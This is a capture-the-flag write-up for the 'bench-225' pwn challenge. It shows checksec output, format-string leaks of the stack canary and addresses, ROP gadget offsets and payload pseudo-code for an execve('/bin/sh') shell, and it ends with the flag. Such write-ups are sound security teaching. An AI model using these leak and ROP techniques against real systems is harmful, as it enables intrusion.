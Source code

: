 # Prompt

Life is one big tug of war. And you don't win the war by pushing the rope.

Files:

    bench-225

nc bench-225.ctf.umasscybersec.org 1337 

# Solve 

Speed run intro: Running the code shows a cli app, reversing the code shows we need to get our stamina below 50 to get a new option in the "game". This new option is the only one we care about; reveal by entering `3, 3, 3, 3, 3, 4, 4, 4, 4, 4, 4`. 

## Vulnerabilities 

Run `checksec`: 

```
>> checksec ./bench-225
[*] '/root/workbench/umassctf_2024/pwn/bench-225/bench-225'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Yikes... We have everything...

The new option in the game takes us to a function named `motivation`

This function holds all of the vulnerabilities we could possibly want! 

![vulnerable function](./media/the_vulns.png)

We have a buffer of 8 bytes that we can write 1000 bytes into, so that's a BOF... We have a `printf` call with no format arguments, so that's a leak!

Since canaries are enabled, we probably want the stack cookie, because if we get that then we can ROP!

The `motivation` function just lets us enter those 1000 bytes previously mentioned, but we don't want to stack overflow while gathering our leaks!

Using `telescope` in `gef` after we break point at the `fgets` call, we can start using some format bugs to leak data. If we enter `%9$p` we get the cookie!

![cookieez](./media/cookie.png)

## ROP Funz 

Since we can use ROP now, let's check if there are any useful functions or one-gadgets we might've missed...

No one-gadgets, but there is a function that is not called from anywhere named `the_boats`. Decompiling this reveals a ton of useful ROP gadgets: 

![gadgets](./media/gadgets.png)

So, if we can get the address of `the_boats`, we can use these gadgets... but, how do we do that? Well, checking the stack again, we see we can grab the address of `main` if we enter a format string bug of `%17$p`!

So, let's calulate the offset of `main` and `the_boats` since we have a leak of the base address of `main` (because PIE is enabled, these values are just from my run and won't match yours):

```
    Example `main`:      0x0000560f8995d35c
    Example `the_boats`: 0x0000560f8995d317
    
    0x0000560f8995d317 - 0x0000560f8995d35c = 69. 
```

So, `the_boats` is 69 bytes *behind* `main`. We can grab the offsets of the gadgets as well.

```
   the_boats <+27>:    pop    rax
   the_boats <+28>:    ret
   the_boats <+29>:    pop    rbx
   the_boats <+30>:    ret
   the_boats <+31>:    pop    rdi
   the_boats <+32>:    ret
   the_boats <+33>:    pop    rdx
   the_boats <+34>:    ret
   the_boats <+35>:    pop    rsi
   the_boats <+36>:    ret
   the_boats <+37>:    pop    rcx
   the_boats <+38>:    ret
   the_boats <+39>:    syscall
   the_boats <+41>:    ret
   the_boats <+42>:    mov    rdi,rax
   the_boats <+45>:    ret
```

The very next byte is the start of `main`. 

So, we have the cookie and we have a bunch of ROP gadgets. We also have vbuffers for stdin/stdout/stderr on the remote connection, which means if we get a shell *locally* we will see it *remotely* (which doesn't usually work). 

So, the call we want to make is, in its most basic form, `execve("/bin/sh", NULL, NULL)`. We can do this in a ROP chain if we use the `syscall` ROP gadget after setting the following registers to the following values:

```
    rdi = "/bin/sh\0"
    rsi = 0x0
    rdx = 0x0
    rax = 0x3b
```

Conveniently, we have pop gadgets to populate all of these registers *and* `fgets` only terminates the input on a newline, which is *fantastic* because it means we can enter NULL bytes, which we need to set `rsi` and `rdi`!

The pseudo code for the ROP chain I wrote was (assume we have gathered the leak for `main` and the cookie): 

```
    payload += padding
    payload += cookie
    payload += padding
    payload += pop_rax
    payload += execve_sys_num
    payload += pop_rsi
    payload += nulls
    payload += pop_rdx
    payload += nulls
    payload += pop_rdi
    payload += b"/bin/sh\0"
    payload += syscall_gadget
```

The "padding" is of 8 bytes. Our buffer overflow was 8 bytes away from the cookie and the cookie was 8 bytes away from `rip`, so we had to pad either side of it. 

But... this failed... why? 

## Realizing Your Mistake 

There is one major problem... Those of you more astute than I am will have noticed it already...

The function signature for `execve` is 

```
int execve(const char *path, char *const argv[], char *const envp[]);
```

Now, I am *100% certain* the last two arguments of this call *can* be `NULL`. But, the mistake I made was... *drumroll*... I set `rdi` to the character bytes of `/bin/sh\0` instead of a *pointer* to those bytes. 

Well, how do we set `rdi` to a pointer to "/bin/sh"? Since we can `NULL` terminate `/bin/sh`, we really just need the address where the start of the string is written. 

Let's go back to our leaks... This is a stack based buffer overflow, so if we can get the *address of the stack* we can point to data we control! Cutting out some of the trial and error here, just know that `%19$p` leaks an address on the stack. This address is consisently 328 bytes *ahead* of the *start* of our ROP chain, so if we know how many instructions we *need* we can just tack as much data at the end of our ROP chain as we want to point to after calculating the offset from the start of our overflow.

Again, let's cut out some of the trial and error here and just let me tell you that our necessary ROP chain will be 96 bytes long, meaning we can start writing our arbitrary data after that and then point to it with our stack leak!

The new pseudo code for the payload is: 

```
    payload += padding
    payload += cookie
    payload += padding
    payload += pop_rax
    payload += execve_sys_num
    payload += pop_rsi
    payload += nulls
    payload += pop_rdx
    payload += nulls
    payload += pop_rdi
    payload += stack_leak - 328 + 96
    payload += syscall_gadget
    payload += b"/bin/sh\0"
```

Remember, our leak was 328 bytes ahead of our shellcode, but "/bin/sh\0" is 96 bytes after that, which is why we did the math this way.

Aaaaaaaand, we get a shell!

UMASS{wh0$e_g0nn4_c4rry_t3h_r0pz_&nd_d4_ch41nz?}
